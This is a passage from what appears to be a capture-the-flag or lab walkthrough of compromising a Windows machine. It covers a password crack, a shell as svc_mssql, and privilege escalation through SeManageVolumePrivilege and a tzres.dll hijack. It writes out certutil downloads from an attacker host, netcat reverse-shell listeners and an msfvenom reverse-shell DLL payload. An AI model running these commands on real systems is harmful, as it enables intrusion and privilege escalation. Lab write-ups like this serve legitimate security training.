Progress.........: 2048/14344385 (0.01%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> lovers1
Hardware.Mon.#1..: Util: 25%

Started: Sat Jan 24 16:56:54 2026
Stopped: Sat Jan 24 16:56:57 2026
```

Once I had the password, I transferred `RunAsCs.exe` to the machine and spawned a new shell as `svc_mssql` .

```bash
C:\\xampp\\htdocs\\uploads>certutil -urlcache -split -f <http://192.168.45.236/RunasCs.exe> RunasCs.exe
****  Online  ****
  0000  ...
  ce00
CertUtil: -URLCache command completed successfully.
```

### Shell as `svc_mssql`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.223.187] 65004
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32>whoami
whoami
access\\svc_mssql
```

Found `local.txt`

```bash
C:\\Users\\svc_mssql\\Desktop>type local.txt
type local.txt
63a...
```

# Privilege Escalation

For privilege escalation part, I ran `whoami /priv`  and found that the user hold `SeManageVolumePrivilege` . After some research, I found a exploit that leverages this specific privilege.

**Reference**: https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public

```bash
C:\\Users\\svc_mssql\\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled
C:\\xampp\\htdocs\\uploads>certutil -urlcache -split -f <http://192.168.45.236/SeManageVolumeExploit.exe> SeManageVolumeExploit.exe
certutil -urlcache -split -f <http://192.168.45.236/SeManageVolumeExploit.exe> SeManageVolumeExploit.exe
****  Online  ****
  0000  ...
  3000
CertUtil: -URLCache command completed successfully.
```

The exploit works by granting all users on the machine full permissions over the `C:\\` drive.

```bash
C:\\xampp\\htdocs\\uploads>.\\SeManageVolumeExploit.exe -h
.\\SeManageVolumeExploit.exe -h
Entries changed: 924
DONE 

C:\\xampp\\htdocs\\uploads>.\\SeManageVolumeExploit.exe
.\\SeManageVolumeExploit.exe
Entries changed: 0
DONE
```

After running the exploit, I used `icacls` to confirm that `BUILTIN\\Users` now had Full Control over the `C:\\` drive, including the `C:\\Windows\\System32\\wbem` directory where `tzres.dll` is located. `tzres.dll` stands for Time Zone Resource; it’s a library containing time zone names and related messaging resources. The `systeminfo.exe` binary loads this file to display OS time settings while gathering system information.

```bash
C:\\xampp\\htdocs\\uploads>cd C:\\
cd C:\\

C:\\>icacls .
icacls .
. NT AUTHORITY\\SYSTEM:(OI)(CI)(F)
  BUILTIN\\Users:(OI)(CI)(F)
  BUILTIN\\Users:(OI)(CI)(RX)
  BUILTIN\\Users:(CI)(AD)
  BUILTIN\\Users:(CI)(IO)(WD)
  CREATOR OWNER:(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files

C:\\Windows\\System32\\wbem>icacls .
icacls .
. NT SERVICE\\TrustedInstaller:(F)
  NT SERVICE\\TrustedInstaller:(CI)(IO)(F)
  NT AUTHORITY\\SYSTEM:(M)
  NT AUTHORITY\\SYSTEM:(OI)(CI)(IO)(F)
  BUILTIN\\Users:(M)
  BUILTIN\\Users:(OI)(CI)(IO)(F)
  BUILTIN\\Users:(RX)
  BUILTIN\\Users:(OI)(CI)(IO)(GR,GE)
  CREATOR OWNER:(OI)(CI)(IO)(F)
  APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(RX)
  APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
  APPLICATION PACKAGE AUTHORITY\\ALL RESTRICTED APPLICATION PACKAGES:(RX)
  APPLICATION PACKAGE AUTHORITY\\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

With these permissions in place, I was able to perform a **DLL Hijacking** attack. I generated a malicious file named `tzres.dll` using `msfvenom` and swapped it with the original file in the `\\wbem` directory. Upon executing `systeminfo` , my fake `tzres.dll` was loaded, triggering the reverse shell and granting me an elevated shell.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.236 LPORT=88 -f dll -o tzres.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: tzres.dll
C:\\Windows\\System32\\wbem>certutil -urlcache -split -f <http://192.168.45.236/tzres.dll> tzres.dll
certutil -urlcache -split -f <http://192.168.45.236/tzres.dll> tzres.dll
****  Online  ****
  0000  ...
  2400
CertUtil: -URLCache command completed successfully.
C:\\Windows\\System32\\wbem>systeminfo
systeminfo
ERROR: The remote procedure call failed.
```

# Shell as `nt authority\\network service`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 88  
listening on [any] 88 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.223.187] 65334
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32>whoami
whoami
nt authority\\network service
```

found `proof.txt`

```bash
C:\\Users\\Administrator\\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\\Users\\Administrator\\Desktop

04/08/2022  01:40 AM    <DIR>          .
04/08/2022  01:40 AM    <DIR>          ..
01/24/2026  08:40 AM                34 proof.txt
               1 File(s)             34 bytes
               2 Dir(s)  14,732,713,984 bytes free

C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
feb...
```